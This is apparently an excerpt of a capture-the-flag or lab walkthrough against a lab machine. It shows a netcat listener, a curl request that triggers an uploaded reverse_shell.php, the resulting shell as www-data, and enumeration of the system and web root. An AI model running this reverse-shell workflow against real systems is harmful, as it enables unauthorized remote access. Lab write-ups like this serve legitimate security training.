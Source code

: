 ```http
Date: Thu, 03 Oct 2024 11:06:29 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1019
Connection: close
Content-Type: text/html; charset=UTF-8

[...]
```

`nc -lnvp 4444`:
```
listening on [any] 4444 ... ←
```

`curl "http://192.168.56.132/imgs/reverse_shell.php" -s`

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.132] 41620 ←
bash: cannot set terminal process group (728): Inappropriate ioctl for device
bash: no job control in this shell
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
www-data ←
```

`id`:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`uname -a`:
```
Linux minimal 5.15.0-88-generic #98-Ubuntu SMP Mon Oct 2 15:18:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

`lsb_release -a`:
```
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.3 LTS
Release:        22.04
Codename:       jammy
```

`ls -alps /var/www/html`:
```
total 76
 4 drwxr-xr-x 4 www-data www-data 4096 Oct  3 11:14 ./
 4 drwxr-xr-x 3 root     root     4096 Nov  1  2023 ../
 4 -rwxrwxrwx 1 www-data www-data   62 Oct  3 11:22 acpid.socket
 4 -rw-rw-r-- 1 www-data www-data 2964 Nov  1  2023 admin.php
 4 -rw-rw-r-- 1 www-data www-data  892 Nov  1  2023 buy.php
12 -rw-r--r-- 1 www-data www-data 8504 Oct  3 11:22 chankro.so
 4 -rw-r--r-- 1 www-data www-data  355 Nov  1  2023 config.php
 4 drwxr-xr-x 2 www-data www-data 4096 Oct  3 11:13 imgs/
 4 -rw-r--r-- 1 www-data www-data 2601 Nov  1  2023 index.php
 4 -rw-r--r-- 1 www-data www-data 1836 Nov  1  2023 login.php
 4 -rw-r--r-- 1 www-data www-data  321 Nov  1  2023 logout.php
 4 -rw-r--r-- 1 www-data www-data 2221 Nov  1  2023 register.php
 4 -rw-rw-r-- 1 www-data www-data 3621 Nov  1  2023 reset_pass.php
```